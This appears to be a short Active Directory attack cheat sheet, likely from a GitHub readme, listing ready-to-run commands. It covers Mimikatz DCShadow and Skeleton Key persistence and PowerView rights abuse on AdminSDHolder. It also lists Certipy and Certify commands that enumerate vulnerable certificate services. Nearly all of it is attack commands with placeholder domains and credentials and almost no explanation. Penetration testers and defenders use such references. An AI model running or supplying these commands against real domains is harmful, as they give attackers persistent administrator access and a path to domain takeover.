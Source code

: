 ### 1. DCShadow

#### Windows:

```powershell
# Mimikatz
lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=domain,DC=com /attribute:userAccountControl /value:512
lsadump::dcshadow /push
```

### 2. Skeleton Key

#### Windows:

```powershell
# Mimikatz
misc::skeleton
# Password becomes "mimikatz"
```

### 3. AdminSDHolder

#### Windows:

```powershell
# PowerView
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=domain,DC=com' -PrincipalIdentity username -Rights All
```

---

## 🛠️ Advanced Certificate Attacks (ADCS)

### 🔍 Certificate Enumeration

#### Linux:

```bash
# Certipy Complete Enumeration
certipy find -u username@domain.com -p password -dc-ip DC_IP -stdout
certipy find -u username@domain.com -p password -dc-ip DC_IP -vulnerable -enabled
certipy ca -u username@domain.com -p password -dc-ip DC_IP -ca CA_NAME
```

#### Windows:

```powershell
# Certify Complete Enumeration
.\Certify.exe find /vulnerable /currentuser
.\Certify.exe find /vulnerable /machineidentity
.\Certify.exe cas
.\Certify.exe pkiobjects
```
